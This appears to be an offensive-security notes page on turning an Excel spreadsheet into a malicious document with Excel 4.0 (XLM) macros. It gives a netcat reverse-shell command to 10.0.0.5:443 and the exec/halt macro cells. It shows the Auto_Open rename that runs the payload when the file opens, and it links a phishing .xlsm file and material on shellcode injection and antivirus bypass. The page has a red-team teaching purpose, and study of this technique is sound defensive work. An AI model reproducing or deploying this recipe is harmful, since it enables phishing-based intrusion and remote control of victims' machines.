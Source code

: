 # ⭕ XLM Macro 4.0

{% embed url="https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm" %}

{% embed url="https://fortynorthsecurity.com/blog/excelntdonut" %}

A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":

![](<../../.gitbook/assets/image (38).png>)

shell.cmd :&#x20;

```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```

We can then execute command by typing into the cells:

```
=exec("c:\shell.cmd")
=halt()
```

Note how we need to rename the `A1` cell to `Auto_Open` if we want the Macros to fire off once the document is opened:

![](<../../.gitbook/assets/image (20).png>)

{% file src="../../.gitbook/assets/Excel 4.0 Macro Functions Reference (1).pdf" %}

{% file src="../../.gitbook/assets/phishing-xlm.xlsm" %}

Opening the document and enabling Macros pops a reverse shell:

![](<../../.gitbook/assets/image (15).png>)

Note that XLM Macros allows using Win32 APIs, hence shellcode injection is also possible. See the original research link below for more info.

{% embed url="https://blog.sevagas.com/Launch-shellcodes-and-bypass-Antivirus-using-MacroPack-Pro-VBA-payloads" %}

{% embed url="https://www.scriptjunkie.us/2012/01/direct-shellcode-execution-in-ms-office-macros" %}

{% embed url="https://malsechunter.wordpress.com/2020/12/13/malicious-document-shellcode-injection" %}

{% embed url="https://securityonline.info/badassmacros-c-based-automated-malicous-macro-generator" %}
